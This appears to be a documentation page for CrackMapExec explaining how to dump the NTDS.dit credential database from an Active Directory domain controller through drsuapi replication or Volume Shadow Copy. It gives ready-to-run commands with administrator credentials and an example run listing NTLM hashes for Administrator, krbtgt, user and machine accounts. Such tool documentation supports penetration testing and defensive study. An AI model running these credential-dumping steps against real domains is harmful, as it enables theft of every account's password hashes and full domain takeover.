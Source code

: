 ------------------------------------------------------------------------
### \*\*\*Dump the NTDS.dit from target DC using methods from secretsdump.py   

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| false         | false       | true        | false       | true*      |

The TARGET must be a domain controller.  
  
2 methods are available: 

drsuapi   (default)   
Uses drsuapi RPC interface create a handle, trigger replication, and combined with     
additional drsuapi calls to convert the resultant linked-lists into readable format  

vss - Uses the Volume Shadow copy Service    

```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds vss
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds
```
Example Run:
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds

Aug.20.19 15:56:43  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)             
Aug.20.19 15:56:43  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)                                                    
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...                             |
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b:::            
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                    
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee:::                   
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::     
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044:::                
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ringo:1122:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::                   
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 FdBChukYpb:1123:aad3b435b51404eeaad3b435b51404ee:1074d4d3b4de771fa1220899072fe02d:::              
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\tswift:1126:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::      
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$:1001:aad3b435b51404eeaad3b435b51404ee:40370f29863afcaa7598ca0b2475f942:::               
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 WIN7E-PC$:1105:aad3b435b51404eeaad3b435b51404ee:2d3b04ef5f2dee295d2ba35ab55e2147:::

```
